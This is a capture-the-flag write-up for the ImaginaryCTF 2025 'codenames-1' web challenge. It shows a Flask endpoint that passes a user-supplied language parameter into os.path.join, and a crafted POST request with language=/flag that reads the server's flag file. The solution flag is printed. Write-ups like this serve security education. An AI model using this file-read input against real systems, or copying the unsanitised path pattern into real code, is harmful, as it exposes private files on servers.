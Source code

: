 ```yaml
---
layout: post
title: "[ImaginaryCTF 2025] codenames-1"
author: george
---
```


> I hear that multilingual codenames is all the rage these days. Flag is in /flag.txt.
>
> http://codenames-1.chal.imaginaryctf.org/
>
> attachments: [codenames.zip](https://2025.imaginaryctf.org/files/codenames-1/codenames.zip)

This challenge was solved as a result of me freeloading off [Lyndon](/authors/lydxn) when I was at the Maple Bacon CTF club meetup. I started this challenge up locally and played around with it. The application seemed to be some sort of 2 player game in which you could either play with another player or play with a bot.

![picture of codenames game being played](/assets/images/imaginaryctf2025/codenames-1.png)

I spent an hour looking around struggling to read the source code and figuring out how to debug the application locally, when Lyndon shows up out of nowhere, introduces himself, solves my application debugging problems, and starts reading the source code with me. Within 5 minutes, he spots these lines in the game creation endpoint:

```python
@app.route("/create_game", methods=["POST"])
def create_game():
    ...
    language = request.form.get("language", None)
    ...
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
        ...
```

One thing to note is that the `language` body parameter passed into the
`os.path.join` function via a f-string is user controllable, allowing us to specify what file we wish to read. Another thing to note (which Lyndon pointed out to me when I was trying to solve the challenge) is that if the 2nd argument of
`os.path.join` starts with `/`, then the first argument is ignored entirely, as shown below:

```python
os.path.join("words", "en.txt")
# 'words/en.txt'

os.path.join("words", "/flag.txt")
# '/flag.txt'
```

Upon figuring this out, we created a new game with the default language set and captured the network request.

```http
POST /create_game HTTP/1.1
Host: codenames-1.chal.imaginaryctf.org
Connection: keep-alive

language=de
```

We then sent a modified request to the server, swapping out the language to be `/flag` instead of `de`.

```http
POST /create_game HTTP/1.1
Host: codenames-1.chal.imaginaryctf.org
Connection: keep-alive

language=/flag
```

Upon starting the game that was generated using our modified request, we noticed that all words were replaced with the flag, solving us the challenge.

![flags replacing words in codenames board](/assets/images/imaginaryctf2025/codenames-1-flag.png)

flag: `ictf{common_os_path_join_L_b19d35ca}`

